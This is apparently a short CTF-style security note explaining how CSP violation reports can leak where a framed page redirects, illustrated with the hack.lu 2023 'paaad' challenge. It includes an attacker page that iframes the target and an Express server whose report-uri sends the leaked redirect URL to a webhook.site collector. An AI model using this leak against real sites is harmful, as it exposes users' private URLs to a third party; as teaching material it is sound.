 # CSP Violation

Csp violations could be used to leak sensitive information from a website.

A best example is shown in paaad challenge from hack.lu23.

An example is https://xn--pd-viaaa.space/ redirects to another url lets say http://x.com, now lets say that we're hosting a page with the following html

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>csp violations</title>
</head>
<body>
    <iframe src="https://xn--pd-viaaa.space/p/latest" frameborder="0"></iframe>
</body>
</html>
```

and lets say the server has the following code

```js
const express = require('express');
const path = require('path');

const app = express();
const port = process.env.PORT || 3000; // Use port 3000 or a provided environment variable

// Serve the index.html file when visiting the root path '/'
app.get('/', (req, res) => {
    res.set('Content-Security-Policy', "frame-src https://xn--pd-viaaa.space/p latest; report-uri https://webhook.site/77ae34c3-9267-462b-a55f-7dac21fb9a36");
    res.sendFile(path.join(__dirname, 'index.html'));
});

// Start the server
app.listen(port, () => {
    console.log(`Server is running on port ${port}`);
});

```

As we can see CSP is being set frame-src as https://xn--pd-viaaa.space/p/latest but in the html we are setting the source of the frame as the same ie https://xn--pd-viaaa.space/p/latest but we know that it'll redirect to http://x.com so that causes a csp violation, and will trigger an error in the console we can use the csp
report-uri to send a port request to our server hence leaking info,such as http://x.com which the user was supposed to go after typing in a paaad in the challenge.